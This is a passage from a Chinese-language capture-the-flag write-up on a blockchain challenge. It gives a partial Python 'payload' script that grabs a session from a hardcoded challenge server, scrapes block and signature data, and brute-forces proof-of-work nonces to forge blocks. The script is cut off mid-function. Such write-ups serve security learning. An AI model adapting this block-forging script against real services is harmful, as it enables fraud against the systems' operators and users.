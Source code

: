 至此三元素基本解决<br>
值得一提的是，空区块无需计算transactions，所以基本就是爆破遍历Nonce了<br>
最后可以写出一键化运行脚本



## payload

安装好库依赖，一键化脚本，直接运行即可获得flag

```
# # -*- encoding: utf-8 -*-
import rsa, uuid, json, copy,requests,re,hashlib
# 获取初始session
url = "http://116.85.48.107:5000/b942f830cf97e/"
r = requests.get(url=url)
session = r.headers['Set-Cookie'].split(";")[0][8:]
Cookie = `{`
    "session":session
`}`
r = requests.get(url=url,cookies=Cookie)
# 获取需要的信息
genesis_hash_re = r'hash of genesis block: (.*?)&lt;br /&gt;&lt;br /&gt;'
genesis_hash = re.findall(genesis_hash_re, r.content)[0]

shop_address_re = r", the shop's addr: (.*?)&lt;br /&gt;&lt;br /&gt;"
shop_address = re.findall(shop_address_re, r.content)[0]

input_re = r'''[`{`"input": ["(.*?)"],'''
input = re.findall(input_re, r.content)[0]

signature_re = r'''"], "signature": ["(.*?)"]'''
signature = re.findall(signature_re, r.content)[0]

txout_id = str(uuid.uuid4())
#工作量证明
def pow(b, difficulty, msg=""):
    nonce = 0
    while nonce&lt;(2**32):
        b['nonce'] = msg+str(nonce)
        b['hash'] = hash_block(b)
        block_hash = int(b['hash'], 16)
        if block_hash &lt; difficulty:
            return b
        nonce+=1
def myprint(b):
    return json.dumps(b)

DIFFICULTY = int('00000' + 'f' * 59, 16)

def hash(x):
    return hashlib.sha256(hashlib.md5(x).digest()).hexdigest()

def hash_reducer(x, y):
    return hash(hash(x) + hash(y))

EMPTY_HASH = '0' * 64

def hash_utxo(utxo):
    return reduce(hash_reducer, [utxo['id'], utxo['addr'], str(utxo['amount'])])

def hash_tx(tx):
    return reduce(hash_reducer, [
        reduce(hash_reducer, tx['input'], EMPTY_HASH),
        reduce(hash_reducer, [utxo['hash'] for utxo in tx['output']], EMPTY_HASH)
```